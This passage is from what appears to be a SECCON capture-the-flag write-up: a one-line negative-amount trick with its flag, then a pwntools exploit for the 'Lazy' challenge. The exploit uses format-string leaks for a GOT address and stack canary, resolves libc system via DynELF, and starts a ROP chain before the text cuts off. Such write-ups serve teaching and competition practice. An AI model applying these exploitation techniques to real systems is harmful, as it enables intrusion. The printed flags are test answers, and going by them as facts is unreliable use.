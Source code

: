 Just send a huge minus amount, i.e. -999501, and you'll get the flag.

flag: `SECCON{y0u_know_n07h1ng_3xcep7_7he_f4ct_th47_1_kn0w}`

## Pwn

### Lazy

```python=
#!/usr/bin/env python
from pwn import *

# SECCON{Keep_Going!_KEEP_GOING!_K33P_G01NG!}

context.arch = 'amd64'
e = ELF( './lazy' )
y = remote( 'lazy.chal.seccon.jp' , 33333 )

def pri( p ):
    y.sendlineafter( '4: Manage' , '4' )
    y.sendlineafter( 'Input file name' , p )

def leak( adr ):
    y.sendlineafter( '4: Manage' , '4' )
    p = '%7$sABCD'.ljust( 0x8 , 'a' ) + p64( adr )
    y.sendlineafter( 'Input file name' , p )
    y.recvuntil( 'Filename : ' )
    d = y.recvuntil( 'ABCD' )[:-4] + '\0'
    return d

y.sendlineafter( '3: Exit' , '2' )
y.sendlineafter( ':' , '_H4CK3R_' )
y.sendlineafter( ':' , '3XPL01717' )

p = '%7$s%9$p'.ljust( 0x8 , 'a' ) + p64( e.got.read )
pri( p )
y.recvuntil( 'Filename : ' )
l = u64( y.recv(6) + '\0\0' )

y.recvuntil( '0x' )
canary = int( y.recvuntil( '00' ) , 16 )
print hex( canary )


d = DynELF( leak, l - 0xd6000 )
system = d.lookup( 'system', 'libc' )
print hex( system )

pop_rdi = 0x00000000004015f3
ppr = 0x00000000004015f1

download = 0x400E23
listing = 0x400D72

csu = 0x4015D0

d = e.bss() + 0x100

p = flat(
    'a' * 8,
    0 , 0 ,
    canary,
    0,
    e.plt.atoi,
```